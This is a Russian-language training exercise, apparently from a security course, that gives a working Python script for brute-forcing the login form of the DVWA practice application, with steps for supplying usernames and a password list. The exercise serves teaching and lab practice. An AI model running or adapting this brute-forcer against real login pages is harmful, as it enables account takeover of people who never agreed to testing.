 **Задача 1: Разработка переборщика паролей и кодревью**

```python
import requests

# Замените URL на свой адрес
url = "http://dvwa.local/vulnerabilities/brute/"

# Список логинов для перебора
usernames = ["admin", "user", "test"]

# Файл с паролями для перебора
passwords_file = "passwords.txt"

def bruteforce_login(username, password):
    # Параметры для передачи в запросе
    params = {
        "username": username,
        "password": password,
        "Login": "Login"
    }

    # Отправляем запрос на сервер
    response = requests.get(url, params=params)

    # Анализируем ответ
    if "Username and/or password incorrect" not in response.text:
        print(f"Успешный вход: Логин - {username}, Пароль - {password}")
        return True
    else:
        print(f"Неудачная попытка: Логин - {username}, Пароль - {password}")
        return False

def main():
    # Чтение паролей из файла
    with open(passwords_file, "r") as file:
        passwords = file.read().splitlines()

    # Перебор логинов и паролей
    for username in usernames:
        for password in passwords:
            if bruteforce_login(username, password):
                return

if __name__ == "__main__":
    main()
```
Необходимо:

1. Заменить url на фактический адрес вашего dvwa.local.

2. Заменить usernames на список логинов, которые вы хотите проверить.

3. Заполнить файл passwords.txt вашими кандидатами на пароли (каждый пароль на новой строке).
